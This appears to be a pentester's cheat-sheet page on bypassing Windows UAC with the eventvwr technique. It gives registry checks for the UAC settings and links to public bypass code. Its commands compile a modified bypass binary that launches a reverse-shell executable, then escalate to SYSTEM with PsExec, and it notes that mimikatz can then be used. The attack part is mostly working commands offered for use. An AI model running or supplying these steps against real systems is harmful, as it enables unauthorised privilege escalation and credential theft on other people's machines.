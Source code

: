 # UAC eventvwr

{% embed url="https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/" %}
eventvwr
{% endembed %}

### Check if UAC is On

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System

ConsentPromptBehaviorAdmin    REG_DWORD    0x5
EnableLUA    REG_DWORD    0x1
PromptOnSecureDesktop    REG_DWORD    0x1
```

{% hint style="info" %}
1. `EnableLUA` tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys
2. `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3. `PromptOnSecureDesktop` is binary, either 0 or 1.
{% endhint %}

#### When 2. & 3. is default or lower ( not work when `ConsentPromptBehaviorAdmin` = 2 and `PromptOnSecureDesktop` = 1)

{% embed url="https://github.com/k4sth4/UAC-bypass" %}

```
https://github.com/turbo/zero2hero/raw/master/main.c

GetCurrentDirectory(MAX_PATH, curPath);
strcat(curPath, "\\rev1.exe");

x86_64-w64-mingw32-gcc main.c -o 64.exe
64.exe -c rev1.exe
>>can use mimi alrdy
PSexec with high integrity shell to system 
PsExec64.exe -accepteula -d -s C:\rev2.exe
```
